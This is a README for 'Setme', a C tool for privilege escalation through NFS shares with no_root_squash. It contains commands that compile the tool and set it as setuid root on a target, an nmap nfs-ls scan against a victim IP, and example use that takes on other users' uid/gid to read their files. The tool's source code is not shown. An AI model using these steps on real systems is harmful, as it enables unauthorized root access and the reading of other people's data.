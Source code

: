 # Setme

**A simple binary made in C to make exploitation of insecure NFS systems easier from a Linux host.**  
This one binary avoids having to add users and groups (and later deleting) when going through many different users NFS directories. Drop in a no_root_squash nfs directory,compile through the mounted nfs and execute the finished binary on target machine to give yourself root. Alternatively quick nifty tool can be used with privilege escalation vectors such as privileged write/execution on a system, to simplify escalation during exploitation of said vector.
##

**Installation:**  
Download the file setMe.c from the repo.

Compile with:  
**gcc setme.c -o setMe**  
Then on target system:  
**sudo chown root:root ./setMe && sudo chmod gu+s ./setMe**

*Considerations:*  
I would make sure you keep access to this binary very restricted, or delete after use- but I guess you would know that since you made it this far ;) .

##
**Usage:  
sudo nmap --script=nfs-ls** victimIP  
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-09 15:08 MST  
Nmap scan report for 10.10.10.10  
Host is up (0.097s latency).  
Not shown: 993 closed ports  
PORT STATE SERVICE  
22/tcp open ssh  
25/tcp open smtp  
80/tcp open http  
110/tcp open pop3  
111/tcp open rpcbind  
| nfs-ls: Volume /home  
| access: Read Lookup NoModify NoExtend NoDelete NoExecute  
| PERMISSION **UID GID** SIZE TIME FILENAME  
| drwxr-xr-x 0 0 4096 2015-09-17T13:21:59 .  
| drwxr-xr-x 0 0 4096 2015-01-07T10:56:34 ..  
| drwxr-xr-x **1013 1013** 4096 2016-11-23T10:17:47 mike  
| drwxr-xr-x **1012 1012** 4096 2012-01-23T11:20:40 alex  
| drwxr-xr-x **1011 1011** 4096 2017-06-23T10:32:52 jeff  
| drwxr-xr-x **1014 1014** 4096 2015-12-1T21:11:51 james  
|_  
119/tcp open nntp  
2049/tcp open nfs
  
Say we want to get into **mikes files**, we execute our binary with:  
**./setMe 1013 1013**  
Then we can get varying levels of access to the files depending on how the permissions are set up on the share. 

**Another example:**  
pop@kali:/setme/$ **./setMe 1013 1013**  
$ **id**  
uid=1013 gid=1013 groups=1013  
  
  
We are now free to browse the nfs folder shares pertaining to the uid and gid in this shell.
To exit the shell type "exit".


